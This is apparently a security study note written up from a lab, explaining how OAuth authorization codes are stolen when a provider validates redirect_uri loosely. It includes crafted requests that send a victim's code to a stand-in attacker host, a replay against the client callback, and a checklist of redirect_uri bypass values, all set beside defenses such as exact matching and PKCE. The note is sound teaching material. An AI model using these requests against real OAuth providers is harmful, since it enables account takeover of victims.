

# 🔓 OAuth — Leaking Authorization Codes and Access Tokens

> [!abstract] Summary
> The most severe class of OAuth vulnerability. If the **OAuth provider** fails to strictly validate the `redirect_uri`, an attacker can hijack the authorization flow itself — stealing a **victim's real code/token** and using it to log in as the victim on **any client app registered with that provider**. Unlike the previous two labs, this bug lives on the provider's side, not the client's, and critically — **`state`/`nonce` do NOT protect against it**.

**Related notes:** [[OAuth-2.0-Deep-Note]] · [[Lab-Writeup-OAuth-Implicit-Flow-Auth-Bypass]] · [[Lab-Writeup-Forced-OAuth-Profile-Linking]]
**Vuln class:** Redirect URI manipulation → Authorization code / access token theft → Full account takeover

---

## 1. Why This Vuln Is Different (and Worse)

| | Previous two labs | This vulnerability |
|---|---|---|
| Where the bug lives | Client application | **OAuth provider** |
| What's compromised | Attacker's own creds get linked / trusted in place of victim's | **Victim's actual, real authorization code is stolen** |
| Blast radius | One client app | **Every client app registered with that OAuth provider** |
| Does `state` fix it? | Yes (would fully close the CSRF gap) | **No — see Section 4** |

> [!danger] Bottom line
> This is the one that gets called "account takeover via OAuth" in real bug bounty writeups, because compromising the provider-side flow compromises the user's identity everywhere that provider is used for SSO — not just one blog site.

---

## 2. Where the Flaw Lives: `redirect_uri` Validation

Recall the authorization request from the theory note:

```
GET /auth?client_id=clientapp&redirect_uri=https://client-app.com/callback&response_type=code&state=xyz
```

`redirect_uri` tells the **OAuth provider**: *"once the user authenticates and consents, send the code/token to this URL."*

> [!important] The critical question
> Does the OAuth provider validate `redirect_uri` with an **exact match** against a pre-registered allowlist for that `client_id`? If it does partial matching, subdomain matching, or accepts arbitrary values — the flaw exists.

---

## 3. The Attack — Step by Step

### Step 1 — Attacker crafts a malicious authorization URL

Same legitimate `client_id` (the attacker doesn't register their own client — they abuse the real one), but the `redirect_uri` points to attacker infrastructure:

```http
GET /auth?client_id=clientapp
    &redirect_uri=https://attacker-server.com/steal
    &response_type=code
    &state=RANDOM HTTP/1.1
Host: oauth-provider.com
```

### Step 2 — Deliver to victim (CSRF-style, zero interaction)

```html

```

Just an `` tag is enough — GET request fires the moment the page loads.

### Step 3 — Victim's browser completes the flow (they're already logged into the provider)

Because the victim has an existing session with the OAuth provider (already logged into Google/GitHub/etc.), no login screen appears — the provider just authenticates and redirects:

```http
HTTP/1.1 302 Found
Location: https://attacker-server.com/steal?code=VICTIMS_REAL_CODE&state=RANDOM
```

### Step 4 — Code lands on attacker's server

The attacker's server logs the incoming request → captures `code=VICTIMS_REAL_CODE`. This is the **victim's own, genuinely valid** authorization code.

### Step 5 — Attacker replays the stolen code against the REAL client app callback

```http
GET /callback?code=VICTIMS_REAL_CODE HTTP/1.1
Host: client-app.com
Cookie: session=ATTACKER_OWN_SESSION
```

The client app does exactly what it's designed to do: server-to-server exchange of `code` → `access_token` with the OAuth provider (using its own `client_secret`). The provider has no way to know this code didn't travel through the victim's browser this time — it's a genuinely valid code, so it returns a valid token **for the victim**.



> [!important] No client secret or token needed by the attacker
> The attacker never touches the `client_secret` or handles the token exchange themselves — they just deliver the stolen `code` to the legitimate `/callback` endpoint and let the real client app do the exchange **on their behalf**, resulting in the client app logging them in as the victim.

---

## 4. Why `state` and `nonce` Do NOT Prevent This

> [!danger] Critical distinction from the previous two labs
> In the "Forced OAuth Profile Linking" lab, `state` was **missing entirely** — that was the whole bug, and adding it would fix it.
>
> Here, even a **correctly implemented** `state` (or OIDC `nonce`) does nothing, because:
>
> **The attacker crafts the entire authorization request from the start.** They generate their own `state`/`nonce` value and embed it in the malicious URL they trick the victim into visiting. When the callback comes back, that value matches perfectly — because the attacker set it themselves. `state` protects against an attacker forging a *callback* without controlling the *initial request* — but here the attacker controls the initial request too; the victim's browser is just the delivery mechanism.

| Protection | Protects against | Protects against THIS attack? |
|---|---|---|
| `state` | Attacker forging a callback for a request they didn't initiate | ❌ No — attacker initiates the request themselves |
| `nonce` (OIDC) | Replay/injection of ID tokens not tied to this specific request | ❌ No — same reasoning |
| Strict `redirect_uri` validation | Attacker redirecting the code/token to their own server | ✅ **Yes — this is the actual fix** |

---

## 5. The Real Fix

> [!success] Defenses — must live on the OAuth provider side

1. **Exact string match** of `redirect_uri` against a pre-registered allowlist per `client_id`
   - No wildcards
   - No "starts with" / prefix matching
   - No subdomain matching
   - No open redirects chained off an allowed domain
2. **Reject the request outright** if `redirect_uri` doesn't exactly match what was registered
3. **PKCE (Proof Key for Code Exchange)** — additional defense-in-depth for the Authorization Code flow:
   - Client generates a `code_verifier` (random secret) and derives `code_challenge = SHA256(code_verifier)`
   - `code_challenge` sent in the initial `/auth` request
   - At token exchange, client must supply the original `code_verifier`
   - Even if an attacker steals the `code`, they can't redeem it without the `code_verifier`, which never left the legitimate client's memory
4. **Short code lifetimes + single-use enforcement** — reduces the window for interception/replay

---

## 6. Common Weak `redirect_uri` Validation Patterns to Test For

> [!tip] Attacker/pentester checklist
> When testing an OAuth provider's `redirect_uri` validation, try:
> - Appending extra path segments: `https://client-app.com/callback/../../evil`
> - Swapping to a different but similar-looking domain: `https://client-app.com.attacker.com`
> - Using an open redirect on the legitimate domain: `https://client-app.com/callback?next=https://attacker.com`
> - Subdomain takeover / attacker-controlled subdomain: `https://evil.client-app.com`
> - Case sensitivity / trailing slash inconsistencies
> - Switching `http` for `https` or vice versa
> - Using a completely different, unregistered domain (tests if allowlist exists at all)

---

## 7. Key Takeaway (One-Liner for Recall)

> [!quote]
> **A stolen authorization code is as good as a stolen password — it doesn't matter that the attacker never sees the client secret or the token, because the legitimate client app will happily do the exchange on the attacker's behalf.** `state` and `nonce` only protect the *callback*, not the *initial request* — if the attacker crafts the initial request, those protections are worthless. The only real fix is strict, exact-match `redirect_uri` validation at the provider.

---

## 8. Comparison Across All Three OAuth Attack Labs So Far

| | Implicit auth bypass | Forced profile linking | Redirect_uri code theft (this note) |
|---|---|---|---|
| Bug location | Client app | Client app | **OAuth provider** |
| What's exploited | Trusts client-submitted identity field | Missing `state` → CSRF on linking | Provider doesn't validate `redirect_uri` |
| Who initiates malicious flow | Attacker, against themselves | Attacker, against themselves, replayed via victim | **Attacker, using victim's browser as delivery** |
| Does `state` help? | N/A | ✅ Would fully fix it | ❌ **No — attacker controls the whole request** |
| What's stolen | Nothing — wrong association made | Nothing — attacker's own creds linked | **Victim's real authorization code** |
| Blast radius | One client app | One client app | **Every client app on that provider** |

---

## 📌 Links
- Theory: [[OAuth-2.0-Deep-Note]]
- [[Lab-Writeup-OAuth-Implicit-Flow-Auth-Bypass]]
- [[Lab-Writeup-Forced-OAuth-Profile-Linking]]
- Next lab candidate: [[OAuth - Account Hijacking via redirect_uri]]
- Next lab candidate: [[OAuth - Stealing OAuth Access Tokens via Open Redirect]]
